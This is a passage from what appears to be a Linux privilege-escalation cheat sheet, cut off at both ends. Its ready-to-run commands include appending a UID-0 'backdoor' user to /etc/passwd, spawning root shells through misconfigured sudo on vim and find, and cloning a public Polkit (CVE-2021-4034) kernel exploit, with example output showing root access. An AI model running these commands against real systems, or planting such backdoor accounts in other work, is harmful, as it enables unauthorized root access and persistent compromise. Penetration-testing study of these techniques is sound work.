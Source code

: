   - **Execution**: Check permissions.
    ```bash
    ls -l /etc/passwd /etc/shadow
    ```
    **Example Output**:
    ```
    -rw-rw-r-- 1 root root /etc/passwd
    -rw-rw-r-- 1 root shadow /etc/shadow
    ```
    - Add a new root user:
      ```bash
      echo "backdoor:x:0:0::/root:/bin/bash" >> /etc/passwd
      su backdoor
      ```
      **Example Output**:
      ```
      # whoami
      root
      ```
    - **Purpose**: Gain root access by modifying authentication files.
- **Sudo Misconfigurations**:
  - **Technique**: Exploit misconfigured `sudo` permissions.
  - **Execution**: Check sudo permissions.
    ```bash
    sudo -l
    ```
    **Example Output**:
    ```
    User user may run the following commands:
        (root) NOPASSWD: /usr/bin/vim
        (root) NOPASSWD: /usr/bin/find
    ```
    - Exploit `vim`:
      ```bash
      sudo vim -c ':!/bin/sh'
      ```
    - Exploit `find`:
      ```bash
      sudo find /etc -exec /bin/sh \;
      ```
      **Example Output**:
      ```
      # whoami
      root
      ```
    - **Purpose**: Gain root privileges via sudo commands.
- **Kernel Exploits**:
  - **Technique**: Exploit unpatched kernel vulnerabilities (e.g., Dirty COW, CVE-2016-5195; Polkit, CVE-2021-4034).
  - **Execution**: Check kernel version.
    ```bash
    uname -r
    ```
    **Example Output**:
    ```
    4.4.0-31-generic
    ```
    - Use a public exploit (e.g., Polkit).
      ```bash
      git clone https://github.com/Almorabea/Polkit-exploit.git